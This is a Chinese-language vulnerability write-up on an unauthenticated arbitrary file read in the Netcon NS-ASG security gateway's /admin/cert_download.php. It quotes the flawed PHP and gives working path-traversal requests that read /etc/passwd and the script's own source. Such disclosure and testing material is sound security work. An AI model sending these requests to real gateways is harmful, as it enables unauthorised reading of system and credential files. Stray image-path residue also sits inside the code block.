 # 奇安信 网康 NS-ASG安全网关 cert_download.php 任意文件读取漏洞

# 网康 NS-ASG安全网关 cert_download.php 任意文件读取漏洞

## 漏洞描述

网康 NS-ASG安全网关 cert_download.php 文件存在任意文件读取漏洞

## 漏洞影响

```
网康 NS-ASG安全网关
```

## 网络测绘

```
网康 NS-ASG安全网关
```

## 漏洞复现

出现漏洞的文件为 **/admin/cert_download.php**

```php
![2](C:\Users\47236\Desktop\2.png)<?php
$filename = substr($file,strpos('certs/',$certfile)+6);
//文件的类型
header('Content-type: application/pdf');
//下载显示的名字
header('Content-Disposition: attachment; filename="'.$filename.'"');
readfile("$certfile");
exit();
?>
```

此文件没有对身份进行校验即可下载任意文件

```plain
/admin/cert_download.php?file=test.txt&certfile=../../../../../../../../etc/passwd
```

![](/images/202202162231024.png)

```plain
/admin/cert_download.php?file=test.txt&certfile=cert_download.php
```

![](/images/202202162234357.png)

